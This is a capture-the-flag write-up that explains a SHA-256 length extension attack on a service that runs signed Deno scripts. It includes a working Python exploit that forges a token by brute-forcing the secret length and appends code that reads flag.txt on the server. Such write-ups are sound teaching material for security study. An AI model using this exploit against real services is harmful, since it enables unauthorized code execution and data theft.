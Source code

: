 The service is vulnerable to the SHA-256 [length extension attack](https://en.wikipedia.org/wiki/Length_extension_attack). For all
the preloaded scripts, we know the value of the token:
`T = SHA-256(secret || script)`

Applying the length extension attack allows finding the value of `T'`:
`T' = SHA-256(secret || script || attacker_data)`

All the attacker needs to know to find `T'` is the value of `script` and the
length of `secret || script`. Of course, the attacker knows the length of
the script, but the length of the secret is not provided---this has to
be found by brute force (it's not that long so it this is quick).

Because `attacker_data` is malicious data appended to the end of the script,
it can be used to run arbitrary code on the server. The attacker can use
this code added to the end of the script to read and print flag.txt.

Also, since `attacker_data` is prepended by some binary padding the attacker
should use the preloaded script named "Unfinished Script", which ends in a
comment. This allows the binary padding to be commented out and not cause
errors; the actual payload should start with `\n` so it is not commented out.

Example script using https://github.com/viensea1106/hash-length-extension:

```py
import HashTools

sec_len = 31 # iterate through this until it works
original_data = b"""const file = await Deno.readTextFile('sales.txt')

const sales = file.split('\\n')

console.log('Number of sales:', sales.length)

// TODO: finish this script"""
sig = "d649728e5f43a2cf8c6ec863bb48328a060c2f1ddb91976d6d138eac8ab91684"

append_data = b"\n const file2 = await Deno.readTextFile('flag.txt')\nconsole.log(file2)" # can put any payload here
magic = HashTools.new("sha256")
new_data, new_sig = magic.extension(
    secret_length=sec_len, original_data=original_data,
    append_data=append_data, signature=sig
)

print(new_data)
print(new_sig)
import requests
url = "http://172.17.0.2:3000/execute" # change this
data = {"script": 
        eval(str(new_data)[1:]),  # it's really janky
        "token": new_sig}
r = requests.post(url, data=data)
print(r.text)
```